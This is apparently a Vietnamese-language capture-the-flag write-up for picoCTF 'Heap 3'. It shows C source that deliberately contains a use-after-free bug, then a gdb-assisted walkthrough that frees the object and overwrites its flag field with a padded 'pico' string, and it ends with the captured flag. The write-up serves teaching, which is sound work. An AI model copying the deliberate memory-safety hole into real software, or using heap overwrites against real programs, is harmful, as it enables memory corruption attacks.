 ## Heap 3

This program mishandles memory. Can you exploit it to get the flag?

Download the binary here.

Download the source here.

Additional details will be available after launching your challenge instance.

### Source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

// Create struct
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int num_allocs;
object *x;

void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
  // Call function in struct
}

void print_menu() {
    printf("\n1. Print Heap\n2. Allocate object\n3. Print x->flag\n4. Check for win\n5. Free x\n6. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

// Create a struct
void init() {

    printf("\nfreed but still in use\nnow memory untracked\ndo you smell the bug?\n");
    fflush(stdout);

    x = malloc(sizeof(object));
    strncpy(x->flag, "bico", 5);
}

void alloc_object() {
    printf("Size of object allocation: ");
    fflush(stdout);
    int size = 0;   
    scanf("%d", &size);
    char* alloc = malloc(size);
    printf("Data for flag: ");
    fflush(stdout);
    scanf("%s", alloc);
}

void free_memory() {
    free(x);
}

    void print_heap() {
        printf("[*]   Address   ->   Value   \n");
        printf("+-------------+-----------+\n");
        printf("[*]   %p  ->   %s\n", x->flag, x->flag);
        printf("+-------------+-----------+\n");
        fflush(stdout);
    }

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            alloc_object();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x->flag);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            free_memory();
            break;
        case 6:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

## Solution
* Challenge này có đề cập đến việc Use-After-Free, đây là một khái niệm liên quan đến việc sử dụng lại bộ nhớ mà đã được giải phóng, nó sẽ dẫn đến vấn đề ghi dữ liệu ở vị trí vừa được giải phóng.

* Hướng giải quyết: Free(x) sau đó sử dụng lại x để có thể ghi đè lên vùng vừa được giải phóng.
* Chạy chương trình và in ra địa chỉ của `x->flag`, nó có địa chỉ là `0x4056ce` và giá trị là `bico`.
* Mình thử dùng gdb để check các vùng nhớ quanh `x->flag`, thu được:
```
gef➤  x/20x 0x4056ae
0x4056ae:       0x00000000      0x00000000      0x00000000      0x00000000
0x4056be:       0x00000000      0x00000000      0x00000000      0x00000000
0x4056ce:       0x6f636962      0x00000000      0x04110000      0x00000000
0x4056de:       0x0a330000      0x00000000      0x00000000      0x00000000
0x4056ee:       0x00000000      0x00000000      0x00000000      0x00000000
```

* Chọn 2 và nhập vào một biến `aaaaaaaaaa` để xem nó được ghi ở đâu xung quanh vùng nhớ này.
```
gef➤  x/20x 0x4056ae
0x4056ae:       0x00000000      0x00000000      0x00000000      0x00000000
0x4056be:       0x00000000      0x00000000      0x00000000      0x00000000
0x4056ce:       0x6f636962      0x00000000      0x04110000      0x00000000
0x4056de:       0x61610000      0x61616161      0x61616161      0x0000000a
0x4056ee:       0x00000000      0x00000000      0x00000000      0x00000000
```
* Ta có thể thấy được rằng nó được ghi sau `x->flag` nên không thể ghi đè theo cách thông thường.
* Bây giờ, giải phóng bộ nhớ và nhập lại `aaaaaaaaaaaaaaaaaaaaaaaaa` thì nhận thấy nó đã được ghi ở một vùng nhớ khác(không xác định). Tuy nhiên lần này nó đã đè lên cả `x->flag`.
```
gef➤  x/20x 0x4056ae
0x4056ae:       0x61610000      0x61616161      0x61616161      0x61616161
0x4056be:       0x61616161      0x61616161      0x61616161      0x61616161
0x4056ce:       0x61616161      0x00000000      0x04110000      0x00000000
```
*  Theo như trạng thái vùng nhớ ở dưới thì ta cần 30 bytes để đè đến `0x4056ce` -> nhập chuỗi `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaapico` và thu được flag `picoCTF{now_thats_free_real_estate_a11cf359}`